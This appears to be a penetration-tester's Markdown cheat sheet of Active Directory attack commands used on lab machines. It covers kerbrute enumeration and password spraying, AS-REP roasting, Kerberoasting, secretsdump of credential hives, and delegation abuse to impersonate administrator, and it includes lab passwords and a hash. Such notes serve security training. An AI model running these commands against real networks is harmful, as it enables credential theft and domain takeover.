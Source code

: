 ### kerbrute
```bash
# kerbrute username list: https://github.com/insidetrust/statistically-likely-usernames/blob/master/jsmith.txt

./kerbrute userenum --dc 10.10.x.x -d manager.htb /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt

./kerbrute userenum -d <% tp.frontmatter["DOMAIN"] %> --dc <% tp.frontmatter["DOMAIN"] %> /PATH/TO/FILE/<USERNAMES>
./kerbrute passwordspray -d <% tp.frontmatter["DOMAIN"] %> --dc <% tp.frontmatter["DOMAIN"] %> /PATH/TO/FILE/<USERNAMES> <% tp.frontmatter["PASSWORD"] %>
```


### Impacket
**Get AD Users**
```bash
impacket-GetADUsers -all -dc-ip 192.168.243.122 hutch.offsec/fmcsorley:CrabSharkJellyfish192
```

**AS-REP Roasting**
```bash
# When we know that fsmith's hash is available(no password required)
impacket-GetNPUsers Egotistical-bank.local/fsmith -dc-ip 10.10.10.175 -request -no-pass

# When we don't know whos hashes are available and we want to use pete's credentials(correct username/password required)
impacket-GetNPUsers -dc-ip 192.168.50.70  -request -outputfile hashes.asreproast corp.com/pete
```

**Kerberoasting**
```bash
sudo impacket-GetUserSPNs -request -dc-ip 192.168.50.70 corp.com/pete
```

**secretsdump**
```bash
impacket-secretsdump -ntds ntds.dit -system SYSTEM LOCAL
impacket-secretsdump -sam SAM -system SYSTEM LOCAL
```

**Grab sid**
```bash
lookupsid.py dom.htb/nuri.jeon:password@192.168.x.x
```

**constrained delegation**
```bash
┌──(root㉿kali)-[~/tools/gMSADumper]
└─# impacket-getST -dc-ip 10.10.10.248 -spn 'WWW/dc.intelligence.htb' -impersonate administrator -hashes :5ecbb8825fa84b3154a7f12336795ed4 'intelligence.htb/SVC_INT$'
Impacket v0.11.0 - Copyright 2023 Fortra

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating administrator
[*]     Requesting S4U2self
[*]     Requesting S4U2Proxy
[*] Saving ticket in administrator.ccache
```
